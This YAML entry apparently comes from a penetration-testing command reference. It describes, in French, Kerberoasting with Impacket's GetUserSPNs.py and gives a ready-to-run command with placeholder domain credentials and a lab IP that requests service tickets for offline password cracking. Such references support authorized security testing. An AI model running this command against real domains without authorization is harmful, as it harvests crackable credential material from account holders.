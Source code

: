 ```yaml
---
description: |
  GetUserSPNs.py d'Impacket tente de récupérer les Service Principal Names qui sont associés à des comptes d'utilisateurs normaux. Ce qui est retourné est un ticket crypté avec le mot de passe du compte utilisateur, qui peut ensuite être forcé hors ligne.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

